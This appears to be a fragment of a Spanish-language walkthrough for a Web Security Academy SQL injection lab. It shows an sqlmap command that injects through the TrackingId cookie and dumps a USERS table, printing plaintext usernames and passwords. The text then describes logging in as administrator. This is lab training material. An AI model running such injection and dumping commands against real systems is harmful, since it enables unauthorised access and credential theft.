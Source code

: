 `Listamos` el `contenido` de las columnas `USERNAME` y `PASSWORD` 

```
# sqlmap -u https://0a9c00870389b09e81a52afe00530034.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --cookie="TrackingId=lnS9gSlm0CA61ePa*; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX" -D PETER -T USERS -C USERNAME,PASSWORD --dump --threads 2     
Database: PETER
Table: USERS
[3 entries]
+---------------+----------------------+
| USERNAME      | PASSWORD             |
+---------------+----------------------+
| administrator | xjuxt7s1x0qt838i0tg5 |
| wiener        | q6l6ukh8q4a35mimkcdn |
| carlos        | ya8sfgeqqbyr0a5ry95w |
+---------------+----------------------+
```

Nos `logueamos` con las `credenciales` de `administrador`

![](/assets/img/SQLI-Lab-12/image_3.png)

![](/assets/img/SQLI-Lab-12/image_4.png)
